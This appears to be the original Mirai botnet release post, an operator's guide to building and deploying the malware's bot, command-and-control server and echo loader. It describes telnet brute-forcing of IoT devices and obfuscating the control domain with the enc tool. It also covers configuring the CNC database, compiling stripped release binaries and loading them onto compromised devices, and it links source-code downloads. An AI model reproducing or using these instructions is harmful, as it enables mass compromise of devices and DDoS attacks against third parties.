 #Infrastructure Overview
- To establish connection to CNC, bots resolve a domain (resolv.c/resolv.h) and connect to that IP address
- Bots brute telnet using an advanced SYN scanner that is around 80x faster than the one in qbot, and uses almost 20x less resources. When finding bruted result, bot resolves another domain and reports it. This is chained to a separate server to automatically load onto devices as results come in.
- Bruted results are sent by default on port 48101. The utility called scanListen.go in tools is used to receive bruted results (I was getting around 500 bruted results per second at peak). If you build in debug mode, you should see the utitlity scanListen binary appear in debug folder.

Mirai uses a spreading mechanism similar to self-rep, but what I call "real-time-load". Basically, bots brute results, send it to a server listening with scanListen utility, which sends the results to the loader. This loop (brute -> scanListen -> load -> brute) is known as real time loading.

The loader can be configured to use multiple IP address to bypass port exhaustion in linux (there are limited number of ports available, which means that there is not enough variation in tuple to get more than 65k simultaneous outbound connections - in theory, this value lot less). I would have maybe 60k - 70k simultaneous outbound connections (simultaneous loading) spread out across 5 IPs.

#Configuring Bot
Bot has several configuration options that are obfuscated in (table.c/table.h). In ./mirai/bot/table.h you can find most descriptions for configuration options. However, in ./mirai/bot/table.c there are a few options you *need* to change to get working.

- TABLE_CNC_DOMAIN - Domain name of CNC to connect to - DDoS avoidance very fun with mirai, people try to hit my CNC but I update it faster than they can find new IPs, lol. Retards :)
- TABLE_CNC_PORT - Port to connect to, its set to 23 already
- TABLE_SCAN_CB_DOMAIN - When finding bruted results, this domain it is reported to
- TABLE_SCAN_CB_PORT - Port to connect to for bruted results, it is set to 48101 already.

In ./mirai/tools you will find something called enc.c - You must compile this to output things to put in the table.c file

Run this inside mirai directory
```
./build.sh debug telnet
```
You will get some errors related to cross-compilers not being there if you have not configured them. This is ok, won't affect compiling the enc tool

Now, in the ./mirai/debug folder you should see a compiled binary called enc. For example, to get obfuscated string for domain name for bots to connect to, use this:
```
./debug/enc string fuck.the.police.com
```
The output should look like this
```
XOR'ing 20 bytes of data...
\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22
```

To update the TABLE_CNC_DOMAIN value for example, replace  that long hex string with the one provided by enc tool. Also, you see "XOR'ing 20 bytes of data". This value must replace the last argument tas well. So for example, the table.c line originally looks like this

```
add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30); // cnc.changeme.com
```

Now that we know value from enc tool, we update it like this
```
add_entry(TABLE_CNC_DOMAIN, "\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22", 20); // fuck.the.police.com
```

Some values are strings, some are port (uint16 in network order / big endian).

#Configuring the CNC
```
apt-get install mysql-server mysql-client
```
CNC requires database to work. When you install database, go into it and run following commands:
http://pastebin.com/86d0iL9g

This will create database for you. To add your user,
```
INSERT INTO users VALUES (NULL, 'anna-senpai', 'myawesomepassword', 0, 0, 0, 0, -1, 1, 30, '');
```

Now, go into file ./mirai/cnc/main.go

Edit these values

```
const DatabaseAddr string   = "127.0.0.1"
const DatabaseUser string   = "root"
const DatabasePass string   = "password"
const DatabaseTable string  = "mirai"
```

To the information for the mysql server you just installed


#Setting Up Cross Compilers
Cross compilers are easy, follow the instructions at this link to set up. You must restart your system or reload .bashrc file for these changes to take effect.

http://pastebin.com/1rRCc3aD

#Building CNC+Bot
The CNC, bot, and related tools:
1) http://santasbigcandycane.cx/mirai.src.zip - ### THESE LINKS WILL NOT LAST FOREVER, 2 WEEKS MAX - BACK IT UP!
http://i.imgur.com/BVc7qJs.png

2) http://santasbigcandycane.cx/loader.src.zip - ### THESE LINKS WILL NOT LAST FOREVER, 2 WEEKS MAX - BACK IT UP![/b]

How to build bot + CNC
In mirai folder, there is build.sh script.

```
./build.sh debug telnet
```
Will output debug binaries of bot that will not daemonize and print out info about if it can connect to CNC, etc, status of floods, etc. Compiles to ./mirai/debug folder

```
./build.sh release telnet
```
Will output production-ready binaries of bot that are extremely stripped, small (about 60K) that should be loaded onto devices. Compiles all binaries in format: "mirai.$ARCH" to ./mirai/release folder


[size=x-large]Building Echo Loader[/size]
Loader reads telnet entries from STDIN in following format: 
[code]ip:port user:pass[/code]
It detects if there is wget or tftp, and tries to download the binary using that. If not, it will echoload a tiny binary (about 1kb) that will suffice as wget.

```
./build.sh
```
Will build the loader, optimized, production use, no fuss. If you have a file in formats used for loading, you can do this
```
cat file.txt | ./loader
```

Remember to ulimit!

##Also:
Just so it's clear, I'm not providing any kind of 1 on 1 help tutorials or shit, too much time. All scripts and everything are included to set up working botnet in under 1 hours. I am willing to help if you have individual questions (how come CNC not connecting to database, I did this this this blah blah), but not questions like "My bot not connect, fix it"


